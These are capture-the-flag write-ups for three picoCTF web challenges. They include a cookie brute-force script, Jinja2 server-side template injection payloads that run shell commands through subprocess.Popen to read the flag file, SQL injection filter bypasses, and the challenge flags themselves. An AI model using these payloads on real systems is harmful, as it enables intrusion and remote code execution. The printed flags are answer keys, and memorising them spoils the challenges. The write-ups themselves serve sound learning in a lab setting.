

# 1. Cookies

> Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solution:

The name of the challenge immediately gives away that this has something to do with browser cookies. Loading up the website, entering a random value (i chose `snickerdoodles` since it was the default) and going to the `Storage Tab -> Cookies` in developer settings, we do in fact see a cookie:

Trying out random phrases in the input field, we see that the cookie gets changed to a numeric value. After a lot of trial and error and searching around in the html files for any condition from which i could deduce the correct value for the cookie, I assumed that the best way to go forward is to just keep trying different values for the cookie. I made this script to do it:
```python
import requests

cookies = {'name':'1'}

while True:
    response = requests.get("http://mercury.picoctf.net:21485/check", cookies=cookies)
    print(f"Checking {cookies['name']}")
    text = response.text
    if "ctf{" in text.lower():
        print("=================FLAG FOUND===========================")
        print(text)
        break
    cookies['name'] = str(int(cookies['name']) + 1)
```

Sure enough, on cookie number 18:
```console
Checking 1
Checking 2
Checking 3
Checking 4
Checking 5
Checking 6
Checking 7
Checking 8
Checking 9
Checking 10
Checking 11
Checking 12
Checking 13
Checking 14
Checking 15
Checking 16
Checking 17
Checking 18
=================FLAG FOUND===========================
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```

In this response, we see the flag
## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
```

## Notes:
None

## Resources:
None


***

# 2. SSTI1

> I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website.

## Solution:

With the name and the hint given in the challenge, it's safe to assume that this involves SSTI, i.e Server-Side Template Injection. To understand this, we must first look at template engines.
A template engine enables us to use static template files in our application. At the runtime, the template engine replaces variables in a template file with the actual values.
These engines help developers create templates for web pages, written in a markup language with placeholders for dynamic content.

However, these template engines can be exploited when they're not secured properly using SSTI.
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side. This vulnerability occurs when invalid user input is embedded into the template engine which can generally lead to remote code execution (RCE).

The first step is to find which template engine is being used. To do this, we test different placeholder formats that are specific to a particular engine. I found this helpful chart for doing so:

[source](https://portswigger.net/web-security/server-side-template-injection)

Doing `${7*7}` gives us an error, `{{7*7}}` outputs 21, `{{7*'7'}}` outputs 7777777, which confirms that it's most likely Jinja2.

From here on out, we can start inputting injections for Jinja2.
We start off by accessing built in classes, looking for a way to perform RCE.
```python
{{ ''.__class__ }}
```
Which returns 
```
# <class 'str'>
```
This seems obvious, "" is obviously a string. However, with this we can list the parent class, and from there all the subclasses available.
First we list the parent class using `__mro__` which stands for `Method Resolution Order`, which is a sequence showing the hierarchy of classes for an object.
```python
{{ ''.__class__.__mro__ }}
```
which gives
```console
# (<class 'str'>, <class 'object'>)
```

Similar to java, all objects in Python (once you go high enough up the heirarchy tree) extend a base class `object`. For a string, its simply just 1 above. Now we can list all the subclasses of the "master" `object` class:
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```
This spits out hundreds of classes that we can use. Looking through the output, we see `<class 'subprocess.Popen'>` which is what we need to start running terminal commands. We have to find the index of this class from the whole output. There are many ways to do this, I bruteforced it using a hot mess of a script I made which is attached at the end of this writeup. Doing this gives the index of the `subprocess.Popen` class which in this case is `356`. Now we can access the class and its methods to run code remotely.

Similar to pwn.college, the files related to the challenge are likely stored in `/`, so we do `ls` on `/` using the newly accessible `subprocess.Popen` class:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls -a /',shell=True,stdout=-1).communicate() }}
```
This shows
```console
(b'.\n..\n.dockerenv\nbin\nboot\nchallenge\ndev\netc\nhome\nlib\nlib32\nlib64\nlibx32\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n', None)
```
Here we see a `/challenge` directory. Doing `ls` on that
```python
{{ ''.__class__.__mro__[1].__subclasses__()[356]('ls -a /challenge',shell=True,stdout=-1).communicate() }}
```
```console
# (b'.\n..\n__pycache__\napp.py\nflag\nrequirements.txt\n', None)
```
Here we see a `flag` file. Finally, running `cat` on that file:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[356]('cat /challenge/flag',shell=True,stdout=-1).communicate() }}
```
```console
# (b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}', None)
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```

## Concepts learnt:

- Server Side Template Injection

## Notes:

- Relatively straightforward challenge if you know exactly how to gain RCE perms.

## Resources:

. [SSTI using Jinja2](https://santhosh-adiga-u.medium.com/exploiting-server-side-template-injection-ssti-in-jinja2-from-input-field-to-remote-code-403547b9b90c) (Couldn't have done it without this)
. [SSTI Detection and Confirmation](https://portswigger.net/web-security/server-side-template-injection)
. [SSTI Exploitation](https://portswigger.net/web-security/server-side-template-injection/exploiting)


***

# 3. Web Gauntlet

> Can you beat the filters? Log in as admin http://shape-facility.picoctf.net:56773/ http://shape-facility.picoctf.net:56773/filter.php

## Solution:

When you put in an invalid character in the fields, it gives a popup saying invalid username or password, but more importantly, it gives the exact sql query used in the backend. The SQL query is:
```sql
SELECT * FROM users WHERE username="<username>" AND password="<password>";
```

#### Round 1
Blacklisted words: `OR`
You can bypass this with:
Username: `admin' --`
Password: anything
This closes the SQL query after the username field by commenting out the rest.

#### Round 2
Blacklisted words: `or` `and` `like` `--` `=`.
This removes our previous bypass of commenting using `--`.
Luckily multi line commenting is another way of bypassing it
`/*` and `*/` are used to comment across multiple lines, and putting just `/*` will comment out the rest of the query.
Username: `admin' /*`
Password: anything

#### Round 3
Blacklisted words: `or` `and` `=` `like` `>` `<` `--`
This can be bypassed using the semicolon, which cuts off the rest of the sql query.
Username: `admin';`
Password: anything

#### Round 4
Blacklisted words: `or` `and` `=` `like` `>` `<` `--` `admin`
This means that we now cannot login to `admin` in the username field. To bypass we can use string concatenation using `||`. This splits the word `admin` into two parts, bypassing the filter.
Username: `adm'||'in;`
Password: anything

#### Round 5
Blacklisted words: `or` `and` `=` `like` `>` `<` `--` `admin` `union`.
Considering our previous method was not blocked with the new filter keyword, we can do the same thing again to pass round 5.

It now tells us to view the `flag.php` page
```php
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?> 
```
We see the flag commented out in the file.
## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- SQL injection
- Bypassing SQL filters

## Notes:

- There is likely always a multitude of ways to solve such challenges.

## Resources:

- [SQL Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#StringConcat)
- [The Basics of SQL Injection](https://primer.picoctf.com/#_infiltrating_in_a_database)
- [Alternate Comment](https://sqlite.org/lang_comment.html)


